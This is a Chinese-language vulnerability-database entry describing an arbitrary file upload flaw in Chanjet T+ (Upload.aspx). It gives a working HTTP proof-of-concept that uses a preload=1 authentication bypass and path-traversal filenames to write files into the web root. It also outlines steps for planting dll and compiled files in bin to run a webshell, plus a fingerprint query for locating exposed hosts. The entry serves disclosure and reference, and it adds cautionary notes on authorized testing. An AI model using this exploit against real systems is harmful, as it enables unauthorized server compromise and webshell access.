





# 畅捷通T+ SetupAccount Upload.aspx路径文件写入

## 条目说明

- 对象与具体问题：畅捷通T+；SetupAccount Upload.aspx路径文件写入
- 版本、配置及部署条件：预编译ASP.NET部署；版本未列
- 认证与权限前提：preload=1绕过声明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与217上传段相同，本篇补name/filename和目录穿越关键字段
- 明确预编译不能直接ASPX执行，应保留条件；dll/compiled链仅图片，缺文本证据
- 上传到bin会改应用代码，非无害检测；缺修复及确切版本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

### 漏洞影响

```
用友 畅捷通T+
```

### 网络测绘

```
app="畅捷通-TPlus"
```

### 漏洞复现

登录页面


存在漏洞的接口为`/tplus/SM/SetupAccount/Upload.aspx`, 对应文件 `App_Web_upload.aspx.9475d17f.dll`



上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```http
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

> 请求长度说明：原资料 Content-Length 为 261；静态长度已移除，应由客户端根据最终请求体的字节数生成。

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell



将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下







再访问写入的Webshell进行连接

```
/tplus/shell.aspx?preload=1	
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
